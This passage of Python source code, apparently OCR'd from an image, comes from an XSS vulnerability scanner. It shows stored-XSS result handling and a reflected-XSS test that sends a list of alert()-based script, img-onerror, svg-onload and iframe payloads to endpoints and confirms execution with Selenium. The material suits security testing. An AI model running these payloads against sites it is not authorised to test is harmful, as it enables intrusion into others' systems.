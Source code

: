                         results.append({
                            'payload': payload,
                            'stored': True,
                            'executed': trigger_success,
                            'store_response_code': store_response.status_code
                        })
                        
                        if trigger_success:
                            print(f"    ✓ Stored XSS confirmed with payload: {payload[:50]}...")
                        else:
                            print(f"    ~ Stored but execution unclear: {payload[:50]}...")
                
            except Exception as e:
                print(f"    ✗ Error testing stored XSS: {e}")
        
        return results
    
    def test_reflected_xss(self, endpoint_info):
        """Test for reflected XSS vulnerabilities"""
        print(f"\n[+] Testing reflected XSS on {endpoint_info['endpoint']['url']}")
        
        # Reflected XSS payloads
        reflected_payloads = [
            "<script>alert('Reflected XSS')</script>",
            "'\"><script>alert('Reflected XSS')</script>",
            "javascript:alert('Reflected XSS')",
            "<img src=x onerror=alert('Reflected XSS')>",
            "<svg onload=alert('Reflected XSS')>",
            "';alert('Reflected XSS');//",
            "\"><script>alert('Reflected XSS')</script><\"",
            "<iframe src=\"javascript:alert('Reflected XSS')\"></iframe>"
        ]
        
        results = []
        
        for payload in reflected_payloads:
            try:
                if endpoint_info['endpoint']['method'] == 'GET':
                    response = self.session.get(
                        f"{self.base_url}{endpoint_info['endpoint']['url']}",
                        params={endpoint_info['endpoint']['param']: payload}
                    )
                else:
                    data = {endpoint_info['endpoint']['param']: payload}
                    response = self.session.request(
                        endpoint_info['endpoint']['method'],
                        f"{self.base_url}{endpoint_info['endpoint']['url']}",
                        json=data
                    )
                
                # Check if payload is reflected and potentially executable
                if payload in response.text:
                    # Use Selenium to test actual execution
                    execution_confirmed = self.test_xss_execution_selenium(
                        endpoint_info['endpoint'], payload
                    )
                    